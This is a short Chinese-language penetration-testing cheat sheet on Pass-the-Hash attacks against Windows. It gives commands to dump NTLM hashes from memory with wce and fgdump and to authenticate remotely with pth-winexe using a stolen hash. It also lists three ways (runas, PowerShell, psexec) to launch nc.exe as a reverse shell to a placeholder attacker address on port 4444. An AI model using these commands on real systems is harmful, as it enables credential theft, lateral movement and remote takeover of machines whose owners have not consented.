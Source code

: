 
「Pass The Hash」允许攻击者使用用户名和NTLM/LM哈希的有效组合（而不是明文密码）对远程目标进行身份验证，从而无需知道明文密码（针对 Hash 字符串难以破解的场景）
Windows Hash 格式：
```
user:group:id:ntlmpassword::
```
你可以尝试使用下列工具从内存中提取 hash:
```
wce32.exe -w
wce64.exe -w
fgdump.exe
```
在目标计算机上上传并运行fgdump.exe：
```
 $ cd /usr/share/windows-binaries/fgdump; python -m SimpleHTTPServer 80
$ pth-winexe -U DOMAIN/user%hash //$ip cmd
```
或者:
```
export SMBHASH=xxx
$ pth-winexe -U user%  //$ip cmd
```
你还可以使用下面这些方法：

- 方法一:
```shell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```
- 方法二:
```shell
$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$ computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
$ powershell -ExecutionPolicy Bypass -File c:\users\public\r.ps1
```
- 方法三:
```shell
$ psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc <attacker_ip> 4444 -e cmd.exe"
```
